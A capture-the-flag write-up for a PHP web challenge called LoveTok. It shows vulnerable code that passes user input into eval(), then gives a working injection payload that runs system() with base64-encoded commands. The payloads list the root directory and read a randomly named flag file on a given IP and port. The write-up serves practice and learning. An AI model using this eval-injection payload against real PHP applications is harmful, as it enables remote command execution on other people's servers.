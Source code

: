# LoveTok

#### We are given a docker container and a ip and port to connect to trough http

![1](1.png "1")

* Looking trough the php code of the site, we find this exploatable part:*

~~~php
 public function __construct($format)

 {

 $this->format = addslashes($format);

  

 [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];

 $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";

 }


 public function getTime()

 {

 eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');

 return isset($time) ? $time : 'Something went terribly wrong';

 }
~~~

* After some googling, found this link : https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php *

* The exploit looks like this : 

~~~
<url>?format=var_dump(${eval($_GET[1])}=123)&1=system( < payload > );
~~~

* Testing the vuln.. it works.
![2](2.png "2")

* Now to forge the payload:
	* Location of flag.txt is not in the root www folder, but in the root directory and has a randomised name: ( we know this from the docker container)

~~~bash
	chmod 600 /entrypoint.sh
	FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)
	mv /flag /flag$FLAG
	exec "$@"
~~~


* So first off, we try to see what the flag name is : \<payload> = <Mark>"ls /"</Mark> -> Application crashed
* Try to url encode..  \<payload> = <Mark>"ls%20%2F"</Mark>  -> Application crashed
* Try to base64 encode.. \<payload> = <Mark>"base64_decode(bHMgLw)"</Mark> 
		* Worked! 
		* ![3](3.png "3")
	* Next step is to just read the flag... 
![4](4.png "4")


Final payload : 
~~~bash
http://134.209.191.159:31222/?format=var_dump(${eval($_GET[1])}=123)&1=system(base64_decode(Y2F0IC9mbGFneDU3MVA));
~~~